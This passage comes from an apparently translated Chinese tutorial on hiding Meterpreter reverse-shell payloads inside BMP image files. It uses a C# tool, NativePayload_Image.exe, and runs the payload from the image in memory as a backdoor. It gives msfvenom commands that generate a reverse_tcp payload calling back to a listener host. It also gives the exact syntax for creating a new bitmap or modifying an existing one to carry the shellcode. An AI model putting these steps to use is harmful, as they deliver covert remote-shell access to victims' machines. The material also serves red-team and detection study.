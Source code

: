 [![](https://p1.ssl.qhimg.com/t015de7895e2654a0c2.png)](https://p1.ssl.qhimg.com/t015de7895e2654a0c2.png)

图12

从图12中可以看到，我获得了本地BMP文件的Meterpreter会话，“NewBitmaImge.bmp”是图9和图10中我的BMP文件。所以可以看到，我们可以通过“有效载荷注入方法”手工制作位图文件，如图9所示。还可以通过我的C＃代码在内存中执行位图文件的Meterpreter有效载荷，如图12所示。

在这种情况下，后门和BMP文件应该在同一个目录中，但是您也可以使用BMP文件的路径。

第2步：通过工具创建新的位图文件，并注入Meterpreter有效载荷

在这种情况下，您需要通过以下命令之一获得Meterpreter有效载荷：

```
msfvenom -a x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 -f c &gt; payload.txt
 
msfvenom -a x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 -f num &gt; payload.txt
```

注意：在此步骤中，您应该更改Msfvenom的输出有效负载，如图13所示。

注意：将“0xfc , 0x48 , 0x83”更改为“fc,48,83, …”

[![](https://p1.ssl.qhimg.com/t016405884e576b79cc.png)](https://p1.ssl.qhimg.com/t016405884e576b79cc.png)

图13

如图14所示，您可以创建具有新的File_Name的位图文件。

[![](https://p3.ssl.qhimg.com/t01fb7791506f56a827.png)](https://p3.ssl.qhimg.com/t01fb7791506f56a827.png)

图14

正确的语法是：

```
语法: NativePayload_Image.exe create “Newfilename.bmp” [Meterpreter_payload]
 
语法: NativePayload_Image.exe create “Newfilename.bmp” fc,48,83,....
```

第3步：修改BMP文件，以将Meterpreter有效载荷注入现有的BMP文件。

在这种情况下，您需要有效载荷，及一个用于添加或注入有效载荷的BMP文件，如图15所示。

[![](https://p5.ssl.qhimg.com/t018fd9aae75d9ac861.png)](https://p5.ssl.qhimg.com/t018fd9aae75d9ac861.png)

图15

现在您应该使用此语法修改此文件。

```
语法: NativePayload_Image.exe modify “Existfilename.bmp” [header_length] [Meterpreter_payload]
 
语法: NativePayload_Image.exe modify “Existfilename.bmp”  54  fc,48,83,....
 
 
注意: BMP header长度始终是54。
```
